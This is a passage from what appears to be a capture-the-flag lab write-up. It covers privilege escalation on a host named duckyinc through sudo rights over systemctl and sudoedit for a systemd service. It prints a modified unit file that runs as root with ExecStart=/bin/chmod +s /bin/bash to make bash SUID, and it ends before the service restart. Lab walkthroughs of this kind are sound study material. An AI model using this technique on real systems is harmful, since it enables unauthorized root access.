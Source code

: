 Looks like we can run `/bin/systemctl` on some services as root?

**I also found something weird in `/opt`:**
```
server-admin@duckyinc:~$ ls -lah /opt
total 36K
drwxr-xr-x  3 root root 4.0K Aug 20  2020 .
drwxr-xr-x 24 root root 4.0K Aug  9  2020 ..
drwxr-xr-x 11 root root 4.0K Aug 12  2020 Bashfuscator
-rw-r--r--  1 root root  21K Aug 20  2020 mangled.sh
```

Bashfuscator. Hmm...

Let's dig deeper into the sudo permission!

**We can run the following command as root:**
```sh
/bin/systemctl start duckyinc.service
/bin/systemctl enable duckyinc.service
/bin/systemctl restart duckyinc.service
/bin/systemctl daemon-reload
sudoedit /etc/systemd/system/duckyinc.service
```

The `sudoedit`, and `/bin/systemctl restart duckyinc.service` looks interesting.

**Let's try to edit the `duckyinc.service` config file:**
```
server-admin@duckyinc:~$ sudoedit /etc/systemd/system/duckyinc.service
```

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m $
ExecReload=/bin/kill -s HUP $MAINPID                      
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

**Hmm... How about I set the `User` and `Group` to `root`, and add a SUID sticky bit to `/bin/bash`?**
```
[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/chmod +s /bin/bash
```
